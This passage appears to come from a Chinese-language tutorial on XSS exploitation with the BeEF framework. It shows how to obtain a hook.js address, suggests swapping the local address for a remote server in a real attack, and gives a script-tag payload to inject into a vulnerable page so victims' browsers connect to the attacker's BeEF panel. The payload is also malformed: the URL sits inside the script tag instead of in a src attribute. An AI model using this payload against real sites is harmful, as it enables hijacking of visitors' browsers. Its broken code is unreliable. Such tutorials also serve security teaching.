 运行成功后, 会得到一个 hook.js 地址, 这是利用 XSS 漏洞插入目标网站的攻击脚本地址

![xss-25](./img/xss-25.png)

本地得到地址是 `http://127.0.0.1:3000/hook.js` (实际攻击时, 可将 127.0.0.1 替换成远程服务器地址), 那就可以在漏洞页面插入如下代码进行利用

```html
<script>http://127.0.0.1:3000/hook.js</script>
```

受害者访问后, 若利用成功的话, 在 BeEF 管理页面(此处为 `http://127.0.0.1:3000/ui/panel` )就可以看到目标上线了

![xss-26](./img/xss-26.png)
